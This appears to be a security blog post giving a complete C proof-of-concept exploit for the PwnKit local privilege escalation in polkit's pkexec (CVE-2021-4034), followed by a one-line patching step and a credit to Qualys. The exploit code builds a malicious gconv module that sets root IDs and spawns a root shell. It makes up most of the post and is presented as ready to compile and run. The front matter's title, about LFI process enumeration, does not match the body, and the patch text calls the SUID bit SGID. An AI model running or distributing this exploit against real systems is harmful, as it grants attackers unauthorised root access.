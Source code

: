```yaml
---
title: Linux Process Enumeration Through LFI Bugs
author: Nobel Herrera
date: 2022-03-30 11:11:00 -0400
categories: [Linux, LFI, Enumeration, Web]
tags: [RedTeam, LFI, Web, Linux, Enumeration]
math: true
mermaid: true
image:
  path: /commons/devices-mockup.png
  width: 800
  height: 500
---
```


In this post walks through the PoC and manual patching of the local privilege escalation vulnerability discovered in polkit’s pkexec, dubbed as PwnKit. 

## Contents..
---

* [Exploit confirmed on fully patched Ubuntu 21.10](#exploit-confirmed-on-fully-patched-ubuntu-2110)
* [PoC Code](#poc-code)
* [Manual Patching](#manual-patching)
* [Credits](#credits)

---

## Exploit confirmed on fully patched Ubuntu 21.10:
![Format 5](/docs/assets/capture.png)

## PoC Code:
```c
/* Compile: gcc polkit_PoC.c -o PwnKit
* Change perms: chmod +x ./PwnKit
* Profit: ./PwnKit
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```
## Manual Patching:
Remove SGID from /usr/bin/pkexec
```shell
cd /usr/bin && sudo chmod 0755 ./pkexec
```
## Credits:
This vulnerability was discovered by the [Qualys Research Team](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).